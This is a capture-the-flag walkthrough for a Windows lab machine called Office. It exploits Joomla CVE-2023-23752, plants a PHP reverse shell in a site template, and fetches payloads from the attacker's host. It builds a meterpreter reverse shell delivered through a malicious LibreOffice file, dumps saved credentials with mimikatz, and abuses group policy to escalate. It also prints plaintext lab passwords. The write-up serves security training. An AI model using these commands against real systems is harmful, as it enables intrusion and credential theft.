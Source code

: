 User Flag  
---------  
Web DB Credential  
-----------------  
It's the vulnerability: Joomla. 4.2.7 -  CVE-2023-23752  
ruby exploit.rb http://{office_ip}  
MysqlDB Name: joomla_db  
User: root  
Password: H0lOgrams4reTakIng0Ver754!  
  
office\web_account  
------------------  
http://{office_ip}/administrator  
Username: administrator  
Password: playboy69  
  
Choose "System" > "Site Templates" in Templates > "Cassiopeia Details and Files" > "index.html" under /templates/cassiopeia/ > Delete the code and replace with php backdoor > Save.  
  
  
Php backdoor  
------------  
> php-reverse-shell.php from "https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php"  
  
> Replace the your ip addres and port for reverse shell in Line 177  
  
  
Reverse shell  
-------------  
> In your terminal > nc -lvnp {you defined port:4444}  
  
> Browse http://{office_ip}/ in the browser  
> Shell pop-up  
  
  
Tstark  
------  
> Download RunasCs.zip from [https://github.com/antonioCoco/RunasCs/r...s/tag/v1.5](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5)  
> Upload RunasCs.exe  
> Python File server command: python -m http.server 80  
> Upload command: cmd /c powershell Invoke-WebRequest -Uri http://{your ip}:80/RunasCs.exe -OutFile C:\Windows\Temp\RunasCs.exe  
  
> C:\Windows\Temp\RunasCs.exe tstark playboy69 "cmd /c type C:\Users\tstark\Desktop\user.txt" -l 8  
  
> You will got user.txt from the tstark account.  
  
  
Root Flag  
----------  
ppotts shell - Libre Vulnerability  
----------------------------------  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={your ip} LPORT={new listen port:4445} -f exe -o reverse1.exe  
  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/reverse1.exe -OutFile c:\users\public\reverse1.exe  
> Listen in meterpreter windows/x64/meterpreter/reverse_tcp at your ip & new listen port  
  
> python CVE-2023-2255.py --cmd "c:\users\public\reverse1.exe" --output azerty1.odt  
  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/azerty1.odt -OutFile C:\xampp\htdocs\internal\applications\azerty1.odt  
  
> Wait for a while in msfconsole and You will got session as ppotts user.  
  
  
hhogan shell  
------------  
> vaultcmd /listcreds:"Windows Credentials" /all > you can see that you can get office\hhogan credential  
  
> Download "mimmikatz_trunk.zip" from [https://github.com/gentilkiwi/mimikatz/r...0-20220919](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)  
  
> Upload x64/mimikatz.exe to the user ppotts shell  
  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/mimikatz.exe -OutFile C:\Users\ppotts\Desktop\mimikatz.exe  
  
> dir /a:h C:\Users\ppotts\AppData\Roaming\Microsoft\Credentials\  
> Note three results as Credential_A, Credential_B, Credential_C  
  
> dir /a:h C:\Users\ppotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\  
> Note the first two random no as Protect_A, Protect_B  
  
> .\mimikatz.exe - Case Study Link [https://github.com/gentilkiwi/mimikatz/w...redentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)  
  
> dpapi::masterkey /in:C:\Users\ppotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\{Protect_B-191d3f9d-7959-4b4d-a520-a444853c47eb} /rpc  
> Eg: dpapi::masterkey /in:C:\Users\ppotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d /rpc  
  
> dpapi::cache  
  
> dpapi::cred /in:"%appdata%\Microsoft\Credentials\{Credential_A_18A1927A997A794B65E9849883AC3F3E}"  
> dpapi::cred /in:"%appdata%\Microsoft\Credentials\{Credential_B_84F1CAEEBF466550F4967858F9353FB4}"  
> dpapi::cred /in:"%appdata%\Microsoft\Credentials\{Credential_C_E76CCA3670CD9BB98DF79E0A8D176F1E}"  
> Eg: dpapi::cred /in:"%appdata%\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4"  
  
> You will get office\HHogan credential: H4ppyFtW183#  
  
  
Administartor  
-------------  
> evil-winrm -i {office ip} -u hhogan -p H4ppyFtW183#  
> Executing the commands in hhogan shell is too slow, you should consider new meterpreter reverse shell with msfvenom  
  
> Download "SharpView.exe" from [https://github.com/tevora-threat/SharpVi...r/Compiled](https://github.com/tevora-threat/SharpView/tree/master/Compiled)  
> Upload "SharpView.exe" to hhogan shell  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/SharpView.exe -OutFile C:\Users\hhogan\Desktop\SharpView.exe  
  
> .\SharpView.exe Get-DomainGPO -Properties displayName  
> The only GroupPolicy Name which is vulnerable is "Default Domain Controllers Policy"  
  
> Download "SharpGPOAbuse.exe" from [https://github.com/byronkg/SharpGPOAbuse...es/tag/1.0](https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0) and upload it to the hhogan shell  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/SharpGPOAbuse.exe -OutFile C:\Users\hhogan\Desktop\SharpGPOAbuse.exe  
  
> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c type C:\Users\Administrator\Desktop\root.txt > C:\Users\tstark\Desktop\root.txt" --GPOName "Default Domain Controllers Policy"  
> gpupdate /force  
  
> Upload "RunasCs.exe" to the shell  
> cmd /c powershell Invoke-WebRequest -Uri http://{your ip}/RunasCs.exe -OutFile C:\Users\hhogan\Desktop\RunasCs.exe  
> C:\Users\HHogan\Desktop\RunasCs.exe tstark playboy69 "cmd /c type C:\Users\tstark\Desktop\root.txt" -l 8  
  
> You got the root flag.